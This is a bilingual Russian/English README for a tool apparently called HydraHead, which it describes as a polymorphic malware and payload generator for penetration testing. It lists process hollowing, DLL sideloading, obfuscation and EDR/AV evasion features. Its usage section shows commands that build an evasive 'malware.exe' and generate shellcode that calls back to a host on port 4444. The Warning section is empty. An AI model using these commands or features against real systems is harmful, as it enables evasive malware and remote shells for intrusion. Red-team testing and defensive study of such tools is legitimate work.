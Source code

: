 # HydraHead

![HydraHead Logo](https://img.shields.io/badge/HydraHead-Polymorphic%20Payload%20Generator-red)

## Описание проекта / Project Description

HydraHead - это полиморфный инструмент для генерации и доставки вредоносной нагрузки, разработанный для использования в законных тестах на проникновение. Инструмент позволяет создавать полиморфные вредоносные программы, которые могут обходить современные системы обнаружения и предотвращения вторжений.

**Основные возможности:**
- Генерация полиморфной нагрузки различных типов (EXE, DLL, шелл-код, PowerShell, макросы)
- Несколько техник внедрения кода (Process Hollowing, DLL Hollowing, DLL Sideloading)
- Продвинутые методы обфускации для обхода статического анализа
- Техники уклонения от EDR/AV систем
- Модульная архитектура для простого расширения функциональности

HydraHead is a polymorphic payload generation and delivery tool designed for legitimate penetration testing. The tool allows you to create polymorphic malware that can bypass modern intrusion detection and prevention systems.

**Key Features:**
- Generation of polymorphic payloads of various types (EXE, DLL, shellcode, PowerShell, macros)
- Multiple code injection techniques (Process Hollowing, DLL Hollowing, DLL Sideloading)
- Advanced obfuscation methods to bypass static analysis
- EDR/AV evasion techniques
- Modular architecture for easy extension of functionality

## Использование / Usage

```
python main.py generate --type exe --payload "calc.exe" --output malware.exe --obfuscation high --evasion
```

Для генерации шелл-кода:
```
python demo_shellcode.py --host 192.168.1.100 --port 4444 --output shell.bin --obfuscate --level high
```

```
python main.py generate --type exe --payload "calc.exe" --output malware.exe --obfuscation high --evasion
```

For shellcode generation:
```
python demo_shellcode.py --host 192.168.1.100 --port 4444 --output shell.bin --obfuscate --level high
```

## Предупреждение / Warning
